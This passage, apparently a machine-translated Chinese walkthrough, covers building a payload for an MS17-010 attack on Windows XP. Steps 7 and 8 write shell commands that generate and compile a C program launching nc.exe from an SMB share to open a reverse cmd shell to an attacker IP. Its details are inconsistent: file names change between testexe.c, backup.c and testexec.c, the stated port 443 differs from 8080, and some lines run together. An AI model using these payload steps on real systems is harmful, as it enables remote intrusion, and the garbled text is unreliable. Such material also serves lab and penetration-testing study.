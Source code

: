 我们的目标机器易受 MS17–010 攻击！

**有效负载创建(针对 Windows XP)**

我们最终的有效负载将是一个可执行文件，它:

-将设置 netcat 反向外壳(端口 443)

运行该漏洞所需的一切都被复制到 Kali 上的/tmp 目录中。Python 简单 HTTP 服务器将提供这个目录。

7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

复制并粘贴下面的 C 代码以创建源文件/tmp/backup.c。将“kali=”的值调整为您的 Kali IP 地址。

```
kali=192.168.62.161
portnc2=8080cd /tmp
echo '#include <stdlib.h>'> testexe.c
echo 'int main ()' >> testexe.c
echo '{' >> testexe.c
echo 'int i;' >> testexe.c
echo i = system \(\"START /B \\\\\\\\\\\\\\$kali\\\\\\smb\\\\\\\\nc.exe $kali $portnc2 -e cmd\"\)\; >> testexe.c
echo 'return 0;' >> testexe.c
echo '}' >> testexe.c
```

结果是源文件/tmp/testexe.c

![](img/4f24ee2fdfd2043a4ab6eb4fef081d21.png)

8.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

将/tmp/testexec.c 编译成/tmp/ruby . exe(ruby-xp.exe 是任意的，如果你愿意也可以是别的)。

```
/usr/bin/i686-w64-mingw32-gcc /tmp/testexe.c -o /tmp/ruby-xp.exe
/usr/bin/i686-w64-mingw32-strip /tmp/ruby-xp.exe
```

![](img/e34941928482f1b47927d8fd9a9e2e05.png)

现在，您已经创建了一个 Windows 有效负载文件。接下来的步骤是准备将由有效负载文件(ruby-xp.exe)调用的相关文件。
